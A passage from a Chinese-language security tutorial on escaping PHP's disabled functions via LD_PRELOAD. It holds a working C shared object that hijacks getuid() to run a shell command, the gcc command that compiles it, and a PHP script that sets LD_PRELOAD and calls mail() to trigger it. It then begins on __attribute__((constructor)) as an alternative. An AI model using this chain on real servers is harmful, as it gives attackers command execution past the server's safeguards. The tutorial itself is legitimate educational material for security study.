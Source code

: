 -   能够上传 `.so` 文件
-   能够控制 `LD_PRELOAD` 环境变量的值，比如 `putenv()` 函数
-   因为新进程启动将加载 `LD_PRELOAD` 中的 `.so` 文件，所以要存在可以控制 PHP 启动外部程序的函数并能执行，比如 `mail()`、`imap_mail()`、`mb_send_mail()` 和 `error_log()` 函数等

下面介绍两种常用的利用方式。

### [](#32-%E5%8A%AB%E6%8C%81%E5%87%BD%E6%95%B0uid)3.2 劫持函数(uid)

#### [](#321-%E5%8E%9F%E7%90%86)3.2.1 原理

-   编写一个原型为 `uid_t getuid(void);` 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 `getuid_shadow.so`；
-   运行 PHP 函数 `putenv()`（用来配置系统环境变量），设定环境变量 `LD_PRELOAD` 为 `getuid_shadow.so`，以便后续启动新进程时优先加载该共享对象；
-   运行 PHP 的 `mail()` 函数，`mail()` 内部启动新进程 `/usr/sbin/sendmail`，由于上一步 `LD_PRELOAD` 的作用，`sendmail` 调用的系统函数 `getuid()` 被优先级更好的 `getuid_shadow.so` 中的同名 `getuid()` 所劫持；达到不调用 PHP 的各种命令执行函数（`system`、`exec` 等等）仍可执行系统命令的目的。

#### [](#322-%E5%88%A9%E7%94%A8)3.2.2 利用

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```c<br>#include <stdlib.h><br>#include <stdio.h><br>#include <string.h><br>void payload() {<br>  system("ls > /tmp/leon");<br>}   <br>int getuid() {<br>if (getenv("LD_PRELOAD") == NULL) { return 0; }<br>  unsetenv("LD_PRELOAD");<br>	payload();<br>}<br>``` |

编译成 so 文件：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>gcc -c -fPIC exp.c -o hack && gcc --share hack -o exp.so<br>``` |

编写 test.php：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```php<br><?php<br>putenv("LD_PRELOAD=./exp.so");<br>mail("","","","","");<br>?><br>``` |

但是，在真实环境中，存在两方面问题：

-   一是，某些环境中，`web` 禁止启用 `sendmail`、甚至系统上根本未安装 `sendmail`，也就谈不上劫持 `getuid()`，通常的 `www-data` 权限又不可能去更改 `php.ini` 配置、去安装 `sendmail` 软件；
-   二是，即便目标可以启用 `sendmail`，由于未将主机名（hostname 输出）添加进 `hosts` 中，导致每次运行 `sendmail` 都要耗时半分钟等待域名解析超时返回，`www-data` 也无法将主机名加入 `hosts`。

基于这两种方式，衍生出一种新的利用方式。

### [](#33-%E5%8A%AB%E6%8C%81%E5%90%AF%E5%8A%A8%E8%BF%9B%E7%A8%8B)3.3 劫持启动进程

回到 `LD_PRELOAD` 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那就完全可以不依赖 `sendmail` 了。

#### [](#331-__attribute__-%E4%BB%8B%E7%BB%8D)3.3.1 \_\_attribute\_\_ 介绍

GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。
